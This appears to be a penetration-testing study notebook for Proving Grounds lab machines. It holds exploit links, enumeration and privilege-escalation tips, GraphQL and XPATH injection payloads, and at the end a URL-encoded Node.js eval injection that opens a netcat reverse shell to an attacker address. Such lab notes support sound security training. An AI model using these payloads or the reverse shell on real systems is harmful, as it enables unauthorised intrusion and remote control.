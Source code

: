 ### Proving Grounds Writeups

- AD:Heist, Hutch, Vault, Resourced
- BOF:Malbec
- WordPress:SunsetMidnight
- SQLi:Butch
- LibreOffice:Hepet, Craft
- SeImpersonatePrivilege:Craft
- container:Sirol

#### Exploits

- [WordPress Core < 5.2.3](https://www.exploit-db.com/exploits/47690)
- [XAMPP 7.4.3 - Local Privilege Escalation](https://www.exploit-db.com/exploits/50337)
- [PHP 8.1.0 RCE](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py)
- [Apache HTTP Server 2.4.49 & 2.4.50 RCE](https://www.exploit-db.com/exploits/50383)
- [MariaDB 10.2 < 10.2.37, 10.3 < 10.3.28, 10.4 < 10.4.18, and 10.5 < 10.5.9, CVE-2021-27928](https://www.exploit-db.com/exploits/49765)

#### Notes

- When we are unable to obtain a normal response from a remote service using Telnet, it is worth trying Netcat instead.
- Note the directory traversal status code ```401```. A page exists that just needs to be verified.
- Check to see whether the site is enabled for both ```http``` and ```https``` services.
- If database brute-force attack with Hydra triggers ```max_connect_errors``` error. (mysql> show variables like '%[max_connect_errors](https://dev.mysql.com/doc/refman/5.6/en/server-system-variables.html#sysvar_max_connect_errors)%';)[(*understanding max_connect_errors*)](https://www.virtual-dba.com/blog/mysql-max-connect-errors/)
- [SQLi(manually)](https://github.com/tedchen0001/OSCP-Notes/blob/master/SQLi(manually).md)
- If the site is encrypted, check the ```DNS name``` in the ```certificate``` through browser.
- linpeas: ```Unknown SUID binary```
- Note that the site's upload folder may be writable.
- Check the active ports and using curl to check the service. [frp](https://github.com/fatedier/frp):frpc for target, frps for attacker.
- Check the unknown SUID binaries execution result.
- If the target server does not install mysql client tool try using mysqldump.
- Note that the root folder is accessible through a vulnerability and can be placed SSH public key.
- [Bypass](https://vk9-sec.com/bypass-30x-redirect-with-burpsuite/) HTTP 30X. 
- If you already have root privileges, note whether you can escape environment, e.g., docker.
- Note the ```opt``` folder.
- Symbolic links(Symlinks) can be abused to cause elevation of privilege.
- Note the ```tasks``` scheduled using ```system timers``` (command:systemctl list-timers, services location:/etc/systemd/system/).
- The ```/etc/sudoers``` file controls who can run what commands as what users on what machines and can also control special things such as whether you need a password for particular commands (https://help.ubuntu.com/community/Sudoers).
- Note that sending test command  between different OS when we using poc exploit.
- Note that when we use the exploit test command between different operating systems such as ```id``` and ```whoami```. (You may have found the right exploit but used the wrong test command.)
- Note the creator information in any files we download from the target, e.g., ```pdf```, ```doc```.
- If it is a windows machine, check the ```Program Files``` and ```Program Files (x86)``` folder to see if additional software is installed.
- Note the interesting executable file. ```ILSpy``` .NET assembly browser and decompiler. (Visual Studio Community version also supports)
- Check the information dumped from the AD environment. For example, using the ```ldapdomaindump``` to get the ```domain_users.json``` file and check all the values.
- Proxychains / Forwarding Ports. 
  - To accelerate nmap scans, you can decrease the timeout duration, it's important to note that it may affect the accuracy of the results.
  `/etc/proxychains4.conf => tcp_read_time_out, tcp_connect_time_out`
- If the ```Git repository``` exists, use the ```ls -la``` command to check all (hidden) files after downloading.
  ```shell
  git log
  git show <commit-id>

  # web folder
  # https://github.com/arthaud/git-dumper
  git-dumper http://192.168.1.100/.git <output directory>
  ```
- Even if we have got the contents of the website from other services such as ftp, we can still do an enumeration of the website directory to make sure that all contents have been found. Note that the file contents may not be the same either.
- If the generated ```cookie``` does not work, note the system time in the VM.
- You can unzip the executable file and check the files it contains.
- If you want to run a file through a schedule set by another user, be careful to use a directory that the user can also access, not `tmp` folder.
- We can also check the cookies of the website.
- Note that some Windows exploit exe files must be run in cmd mode, not in powershell.
- When using the python exploit script, note that the input parameters are case-sensitive.
- `Bad Request - Invalid Hostname. HTTP Error 400. The request hostname is invalid.` you may need to provide a specific fully qualified domain name (FQDN).
- If essential components are missing when running the exploit file, try compiling it on the target machine. For example, 'GLIBC_2.34' not found.
- Check for any hidden directories or files, such as git.
- When collecting the user list, it is possible to include administrator as well. (AD)
- Note the files in the recycle bin.
- Discovery of multiple web directories using multiple wordlists.

```shell
for file in $(ls /usr/share/seclists/Discovery/Web-Content); do gobuster dir -u http://<target ip> -w /usr/share/seclists/Discovery/Web-Content/$file -e -k -b "404,500" -t 20 ; done
```
- Don't forget about Kernel Exploits.
- Analyze the code files discovered during the enumeration process.

#### Commands

Used in `Depreciated`

GraphQL

```graphql
{__schema{types{name,fields{name}}}}
{listUsers}
{getOTP(username:"peter")}
```

Used in `Wheels`

XPATH Injection (XML data)

```
') or 1=1 or ('
')] | //password%00
```

Used in `ProStore`

Node.js

https://medium.com/r3d-buck3t/eval-console-log-rce-warning-be68e92c3090

```
# we are conducting some tests
parameter=(%32%2b%32)
parameter=(%32%2b%31)

parameter=require('child_process').exec('rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.x.x%2080%20%3E%2Ftmp%2Ff')
```
